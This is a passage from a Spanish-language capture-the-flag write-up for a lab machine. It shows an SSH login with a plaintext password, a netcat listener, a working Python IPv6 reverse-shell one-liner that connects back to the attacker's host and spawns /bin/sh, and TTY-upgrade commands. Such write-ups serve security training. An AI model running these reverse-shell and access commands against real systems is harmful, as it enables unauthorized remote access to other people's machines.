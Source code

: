 ## Vuln exploit & Gaining Access {-}

### Ganando acceso con ssh {-}

Como tenemos la contraseña del usuario loki, no connectamos a la maquina victima con 
ssh.

```bash
ssh loki@10.10.10.92
password: lokiisthebestnorsegod
```

y podemos visualizar la flag.

### Ganando acceso con ipv6 {-}

Tambien podriamos ganar acceso al systema por IPV6

1. Mirar con ifconfig nuestra ipv6
1. Ponernos en escucha por ipv6 con netcat

    ```bash
    nc -nv --listen dead:beef:2::101b 443
    ```

1. Entablar la reverse shell con python

    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::101b",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

Y de esta manera vemos que ganamos acceso a la maquina victima como *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

